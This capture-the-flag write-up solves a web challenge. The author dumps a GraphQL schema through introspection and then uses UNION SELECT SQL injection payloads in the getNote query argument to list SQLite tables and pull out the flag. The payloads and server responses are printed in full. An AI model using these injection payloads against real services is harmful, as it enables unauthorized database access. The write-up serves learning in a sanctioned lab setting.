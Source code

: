 # Graphed 2.0
We were given the challenge text:
```
graphed notes is finally here !!!!!! but it looks like something is still broken with that site

EU instance

US instance

author: pop_eax
```

On the website there's a text field, and a submit button. If you try to submit text, all you get is an error.
![Website](media/graphed.png)
If we look at the source code, we see that there's some JavaScript that's commented out.
```js
<script>
function create_note() {
    alert("sorry but this functionality is disabeled due to technical problems");
    //query_data = `mutation {createNote(body:${document.getElementById("note-content").value}, title:"anon note", username:"guest"){note{uuid}}}`;
    //fetch(`/graphql?query=mutation{createNote(body:"ww", title:"anon note", username:"guest"){note{uuid}}}`, {method: "POST"});
}
</script>
```

If we try to curl to the endpoint GraphQL endpoint, we see that it still exists. I've never interacted with GraphQL before, but [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection) had lots of info about exploiting GraphQL. The first thing I did was dumping the entire database schema using this query:
```
fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}
```
Nothing in particular looked interesting to me at first, until I saw an example of [GraphQL SQLi](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#sql-injection). One of the query fields, `getNote`, took an argument, `q`.
```json
{
    "name": "getNote",
    "description": null,
    "args": [
    {
        "name": "q",
        "description": null,
        "type": {
        "kind": "SCALAR",
        "name": "String",
        "ofType": null
        },
        "defaultValue": null
    }
    ],
    "type": {
    "kind": "LIST",
    "name": null,
    "ofType": {
        "kind": "OBJECT",
        "name": "NoteObject",
        "ofType": null
    }
    },
    "isDeprecated": false,
    "deprecationReason": null
}
```
(Schema for `getNote` from the full dump)

I tried sending the payload `{getNote(q:"'") {uuid}}`, and I got results! I then searched for how to list SQLite3 database names, `SELECT name FROM sqlite_master`. I then tried a UNION SELECT attack. Since I already knew that `getNote` normally returned 4 columns from testing, I sent the payload `{getNote(q:"' UNION SELECT name,name,name,name FROM sqlite_master --")} {uuid}`. This gave me all the databases.
```json
{
  "errors": [
    {
      "message": "Received incompatible instance \"('Notes', 2, 3, 4)\"."
    },
    {
      "message": "Received incompatible instance \"('ix_Notes_title', 2, 3, 4)\"."
    },
    {
      "message": "Received incompatible instance \"('ix_users_username', 2, 3, 4)\"."
    },
    {
      "message": "Received incompatible instance \"('users', 2, 3, 4)\"."
    },
    {
      "message": "Received incompatible instance \"('\u0627\u0644\u0639\u0644\u0645', 2, 3, 4)\"."
    }
  ],
  "data": {
    "getNote": [
      null,
      null,
      null,
      null,
      null
    ]
  }
}
```

The last database looked particularly suspicious, and with the query `{getNote(q:"' UNION SELECT *,* FROM \u0627\u0644\u0639\u0644\u0645 --") {uuid}}` I got the flag.
```json
{
  "errors": [
    {
      "message": "Received incompatible instance \"(0, \"flag{h0p3_u_can't_r3@d_1t9176}\", 0, \"flag{h0p3_u_can't_r3@d_1t9176}\")\"."
    }
  ],
  "data": {
    "getNote": [
      null
    ]
  }
}
```

The flag was `flag{h0p3_u_can't_r3@d_1t9176}`.